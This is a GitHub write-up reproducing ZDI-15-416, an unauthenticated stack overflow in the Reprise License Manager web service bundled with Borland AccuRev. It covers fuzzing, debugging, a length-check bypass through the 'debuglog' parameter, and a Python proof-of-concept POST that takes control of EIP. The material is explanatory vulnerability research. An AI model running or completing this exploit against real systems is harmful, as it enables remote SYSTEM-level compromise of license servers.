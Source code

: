 # Borland-AccuRev-StackoverFlow
****
mail :   Firozimaysam@gmail.com 
twitter : https://twitter.com/R00tkitSMM 

I try to Exploit recently published vulnerability in Borland AccuRev 

http://www.zerodayinitiative.com/advisories/ZDI-15-416/

````
this vulnerability allows remote attackers to execute arbitrary code on 
vulnerable installations of Borland AccuRev. Authentication is not required
to exploit this vulnerability.

The specific flaw exists within the service_startup_doit functionality
of the Reprise License Manager service. The issue lies in the handling 
of the licfile parameter which can result in overflowing a stack-based buffer.
An attacker could leverage this vulnerability to execute code under the context of SYSTEM.
````
there was two fake information in ZDI report

1. mapping between string and function is "service_Setup_doit" not "service_startup_doit"
2. vulnerable parameter is "debuglog" not "licfile"

RLM come with AccuRev but it can be directly download  by following link:  http://www.reprisesoftware.com/license_admin_kits/rlm.v11.3BL1-x86_w1.admin.exe

searching "service_startup_doit" string inside rlm.exe dont have any results so i changed it to "service_" to get following strings

![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/stringInIdapro.png)

after some reversing and  analyzing functions that use above string i decide to use another way to finding bug 

ZDI said vulnerable function is accessible remotely so I start read RLM manual to find out how it work 
RLM have Web interface it start http server on port 5054 , with the help of burpsuite we can view all http parameters in post or get requests,
after fuzzing Web interface i found target "licfile" parameter in one Post request
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/burpsuite.png)

for checking licfile parameter vulnerability with help of BurpSuite i send big string parameter to web server
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/bigbuffer.png)
but rlm.exe send error response without any crash 
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/httperror.png)
i set breakpoint in Immunity debugger to track how rlm.exe validate size of string 
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/asm-check.png)

based on above asm code rlm check string size be less than or equal to 0x400 to prevent buffer overflow so i thought my rlm.exe version is not vulnerable but i start fuzzing other attack vectors,so i find out if we send big string with "debuglog" parameter to rlm.exe,and if string is less than 0x400 to bypass above check we can overwrite return value in stack with notorious 0x41414141,so i as said vulnerable function is "debuglog" not "licfile".

![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/eip.png)

i checked rlm.exe and it does not support ASLR but there was a big problem,rlm.exe contains null in its address,so we can't use any address to build our ROP inside rlm.exe,because it use string copy functions and it copy string in stack until null byte.
so exploiting this vulnerability is so simple in XP,just return to shellcode inside stack without ROP.

````
import requests
url="http://10.211.55.39:5054/goform/service_setup_doit"
data= {
    'servicedesc':'RLM+License+Server',
    'servicename':'rlm',
    'action':'1',
    'debuglog':'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
    BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
    BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
    BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCC
    CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
    CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
    CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC'+"\x41\x41\x41\x41",
    'licfile':'C:\Users\username\Desktop\rlm-old'
    }
print requests.post(url, data=data).text
``````


